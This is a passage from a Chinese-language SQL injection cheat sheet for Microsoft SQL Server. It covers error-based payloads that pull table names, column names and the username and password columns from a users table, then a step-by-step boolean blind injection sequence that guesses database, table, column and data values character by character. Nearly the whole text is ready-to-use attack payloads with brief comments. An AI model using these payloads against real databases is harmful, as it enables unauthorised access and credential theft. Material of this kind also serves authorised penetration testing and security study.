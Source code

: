 ```
and 1=(select quotename(table_name) from information_schema.tables for xml path(''))--+
# quotename()的主要作用就是在存储过程中，给列名、表名等加个[]、’’等以保证sql语句能正常执行。

**12.获取字段名** 
# 通过top 和 not in 获取字段
and 1=(select top 1 column_name from information_schema.columns where table_name='users')--+
and 1=(select top 1 column_name from information_schema.columns where table_name='users' and column_name not in ('id','username'))--+
# 通过quotename 和 for xml path('') 获取字段
and 1=(select quotename(column_name) from information_schema.columns where table_name='emails' for xml path(''))--+

**13.获取表中数据** 
and 1=(select quotename(username) from users for xml path(''))--+
and 1=(select quotename(password) from users for xml path(''))--+
```

### bool盲注

```sql
**1.** **判断注入点 ** 
and 1=1 and 1=2 and '1'='1' and '1456'='1456'--+

**2.猜解数据库个数** 
id=1 and (select count(*) from sys.databases)=7--+        # 存在7个数据库

**3.猜解数据库名长度** 
id=1 and len((select top 1 name from sys.databases))=6--+ # 第一个库名长度为6
id=1 and len(db_name())=4--+                              # 当前数据库名长度为4

**4.猜解数据库名** 
id=1 and ascii(substring(db_name(),1,1))=115--+ # 截取库名第一个字符的ascii码为115——s
id=1 and ascii(substring(db_name(),2,1))=113--+ # 截取库名第二个字符的ascii码为113——q
# 截取第一个库名第一个字符的ascii码为109——m
id=1 and ascii(substring((select top 1 name from sys.databases),1,1))=109--+
# 截取第二个库名第一个字符的ascii码为105——i
id=1 and ascii(substring((select top 1 name from sys.databases where name not in ('master')),1,1))=105--+ 

**5.猜解表名** 
# 截取当前库的第一个表的第一个字符的ascii码为101——e
id=1 and ascii(substring((select top 1 table_name from information_schema.tables),1,1))=101--+ 
# 截取当前库的第二个表的第一个字符的ascii码为117——u
id=1 and ascii(substring((select top 1 table_name from information_schema.tables where table_name not in ('emails')),1,1))=117--+

**6.猜解字段名 ** 
# 截取当前库的emails表的第一个字符的ascii码为105——i
id=1 and ascii(substring((select top 1 column_name from information_schema.columns where table_name='emails'),1,1))=105--+
#截取当前库的emails表的第二个字符的ascii码为100——d 
id=1 and ascii(substring((select top 1 column_name from information_schema.columns where table_name='emails'),2,1))=100--+ 

**7.猜解表中数据** 
# username字段的数据第一个字符为D
id=1 and ascii(substring((select top 1 username from users),1,1))=68--+
```
